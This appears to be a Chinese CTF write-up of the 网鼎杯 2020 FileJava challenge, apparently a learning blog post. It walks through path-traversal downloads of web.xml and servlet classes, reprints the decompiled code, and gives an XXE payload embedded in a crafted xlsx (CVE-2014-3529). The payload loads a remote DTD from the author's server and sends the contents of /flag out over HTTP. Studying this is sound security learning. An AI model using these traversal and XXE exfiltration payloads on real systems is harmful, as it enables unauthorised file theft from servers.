





### `前言`

```java
最近不知道学啥，想学Welgic但是太难了直接劝退我，😔刷刷java题来
```

## [网鼎杯 2020青龙组]FileJava

```java
小明同学把最近开发的一个简易文件上传系统挂到了服务器上，但过了段时间收到了漏洞报警，你能帮他找到是哪里出了问题吗？
该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系管理员删除
```

首先分析一下题目：没有给出附件，扫目录也没发现，界面是一个登陆框的模样

肯定不是考察链子，应该是一些在CMS中的漏洞，比如TOP10这种

通过尝试发现了大概后端的功能：

1. 首先UploadServlet选择文件上传，会在文件名前面加一串的随机字符，导致文件名不可控
2. 点击下载按钮 DownloadServlet?filename=0106e2eb-0d80-4f90-b4b0-ee523605a54a_aa.txt 就会这样
3. 本来以为有任意文件下载漏洞，但后端应该有校验，会返回该资源已删除这种

正在苦恼的时候有了一丢丢转机，发现刚才没有读到是因为../的数量还不够，既然有任意文件读取，那么感觉需要读到一个主文件类似app.py的那种,呃呃呃但还是没找到源文件，难道真的直接盲测嘛？？？



涨知识了，看wp发现是读取web.xml，这个到不陌生就是一个配置文件，配置路由的

```java
filename=../../../../web.xml
filename=../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml
```



呃呃又遇到新的难题了，怎么读到里面的文件呢（直接看本地tomcat服务器的结构即可，但是读不到呀）

直接根据xml的位置搞一下

```java
../../../../WEB-INF/web.xml
		../../../../WEB-INF/classes/cn/abc/servlet/DownloadServlet.class
    	../../../../WEB-INF/classes/cn/abc/servlet/ListFileServlet.class
        ../../../../WEB-INF/classes/cn/abc/servlet/UploadServlet.class
```

就三个类不太多，都下载下来

```java
        cn.abc.servlet.DownloadServlet
        cn.abc.servlet.ListFileServlet
        cn.abc.servlet.UploadServlet
```

### `ListFileServlet.java`

一个tomcat服务

```java
public class ListFileServlet extends HttpServlet {
    private static final long serialVersionUID = 1;

    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        doPost(request, response);
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        getServletContext().getRealPath("/WEB-INF/upload");//得到上传的真实路径
        Map<String, String> fileNameMap = new HashMap<>();
        String saveFilename = (String) request.getAttribute("saveFilename");
        String filename = (String) request.getAttribute("filename");
        System.out.println("saveFilename" + saveFilename);
        System.out.println("filename" + filename);
        saveFilename.substring(saveFilename.indexOf("_") + 1);
        fileNameMap.put(saveFilename, filename);
        request.setAttribute("fileNameMap", fileNameMap);
        request.getRequestDispatcher("/listfile.jsp").forward(request, response);
    }
}
```

### `UploadServlet`

```java
public class UploadServlet extends HttpServlet {
    private static final long serialVersionUID = 1;
    
    protected void doPost(javax.servlet.http.HttpServletRequest r6, javax.servlet.http.HttpServletResponse r7) throws javax.servlet.ServletException, java.io.IOException {
        throw new UnsupportedOperationException("Method not decompiled: cn.abc.servlet.UploadServlet.doPost(javax.servlet.http.HttpServletRequest, javax.servlet.http.HttpServletResponse):void");
    }

    private String makeFileName(String filename) {
        return UUID.randomUUID().toString() + "_" + filename;//重
    }

    private String makePath(String filename, String savePath) {
        int hashCode = filename.hashCode();
        String dir = savePath + "/" + (hashCode & 15) + "/" + ((hashCode & 240) >> 4);
        File file = new File(dir);
        if (!file.exists()) {
            file.mkdirs();
        }
        return dir;
    }
}
```

### `DownloadServlet `

```java
public class DownloadServlet extends HttpServlet {
    private static final long serialVersionUID = 1;

    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String fileName = new String(request.getParameter("filename").getBytes("ISO8859-1"), "UTF-8");
        //这里的filename通过我们传参来确定
        System.out.println("filename=" + fileName);
        
        if (fileName == null || !fileName.toLowerCase().contains("flag")) {
            //文件不包含flag进去
            String path = findFileSavePathByFileName(fileName, getServletContext().getRealPath("/WEB-INF/upload"));
            if (!new File(path + "/" + fileName).exists()) {
                request.setAttribute("message", "您要下载的资源已被删除!");
                request.getRequestDispatcher("/message.jsp").forward(request, response);
                return;
            }
            response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName.substring(fileName.indexOf("_") + 1), "UTF-8"));
            FileInputStream in = new FileInputStream(path + "/" + fileName);
            ServletOutputStream out = response.getOutputStream();
            byte[] buffer = new byte[1024];
            while (true) {
                int len = in.read(buffer);
                if (len > 0) {
                    out.write(buffer, 0, len);
                } else {
                    in.close();
                    out.close();
                    return;
                }
            }
        } else {
            request.setAttribute("message", "禁止读取");
            request.getRequestDispatcher("/message.jsp").forward(request, response);
        }
    }

    public String findFileSavePathByFileName(String filename, String saveRootPath) {
        int hashCode = filename.hashCode();
        String dir = saveRootPath + "/" + (hashCode & 15) + "/" + ((hashCode & 240) >> 4);
        File file = new File(dir);
        if (!file.exists()) {
            file.mkdirs();
        }
        return dir;
    }
}
```

这里遇到了第一个坑，使用jd-gui反编译软件有的代码识别不出来会直接省略，不如直接拖到idea中直接进行编译



最终的uploadServlet

```java
 protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String savePath = this.getServletContext().getRealPath("/WEB-INF/upload");
        String tempPath = this.getServletContext().getRealPath("/WEB-INF/temp");
        File tempFile = new File(tempPath);
        if (!tempFile.exists()) {
            tempFile.mkdir();
        }

        String message = "";

        try {
            DiskFileItemFactory factory = new DiskFileItemFactory();
            factory.setSizeThreshold(102400);
            factory.setRepository(tempFile);
            ServletFileUpload upload = new ServletFileUpload(factory);
            upload.setHeaderEncoding("UTF-8");
            upload.setFileSizeMax(1048576L);
            upload.setSizeMax(10485760L);
            if (!ServletFileUpload.isMultipartContent(request)) {
                return;
            }

            List<FileItem> list = upload.parseRequest(request);
            Iterator var10 = list.iterator();

            label56:
            while(true) {
                while(true) {
                    if (!var10.hasNext()) {
                        break label56;
                    }

                    FileItem fileItem = (FileItem)var10.next();
                    String filename;
                    String fileExtName;
                    if (fileItem.isFormField()) {
                        filename = fileItem.getFieldName();
                        fileExtName = fileItem.getString("UTF-8");
                    } else {
                        filename = fileItem.getName();
                        if (filename != null && !filename.trim().equals("")) {
                            fileExtName = filename.substring(filename.lastIndexOf(".") + 1);
                            InputStream in = fileItem.getInputStream();
                            if (filename.startsWith("excel-") && "xlsx".equals(fileExtName)) {
                                try {
                                    Workbook wb1 = WorkbookFactory.create(in);
                                    Sheet sheet = wb1.getSheetAt(0);
                                    System.out.println(sheet.getFirstRowNum());
                                } catch (InvalidFormatException var20) {
                                    System.err.println("poi-ooxml-3.10 has something wrong");
                                    var20.printStackTrace();
                                }
                            }

                            String saveFilename = this.makeFileName(filename);
                            request.setAttribute("saveFilename", saveFilename);
                            request.setAttribute("filename", filename);
                            String realSavePath = this.makePath(saveFilename, savePath);
                            FileOutputStream out = new FileOutputStream(realSavePath + "/" + saveFilename);
                            byte[] buffer = new byte[1024];
                            int len = false;

                            int len;
                            while((len = in.read(buffer)) > 0) {
                                out.write(buffer, 0, len);
                            }

                            in.close();
                            out.close();
                            message = "文件上传成功!";
                        }
                    }
                }
            }
```

```java
if (filename.startsWith("excel-") && "xlsx".equals(fileExtName)) {
                                try {
                                    Workbook wb1 = WorkbookFactory.create(in);
                                    Sheet sheet = wb1.getSheetAt(0);
                                    System.out.println(sheet.getFirstRowNum());
```

根据文章说是CVE-2014-3529,excel和xxe的漏洞的结合

先新建一个excel-1.xlsx文件，再改后缀为zip，解压缩，对文件夹里面的[Content_Types].xml进行修改，修改完后再压缩成zip，改后缀为xlsx。

```java
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % remote SYSTEM "http://服务器ip/1.dtd">
%remote;
%all;
]>
<root>&send;</root>
```

然后在自己的服务器上面新建一个1.dtd，内容为：

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://服务器ip:监听端口/%file;'>">
```

接着监听自己的服务器的9999端口，然后上传文件。





具体为啥excel会触发xxe还没细跟，这里先留一下有时候跟（润去补作业了
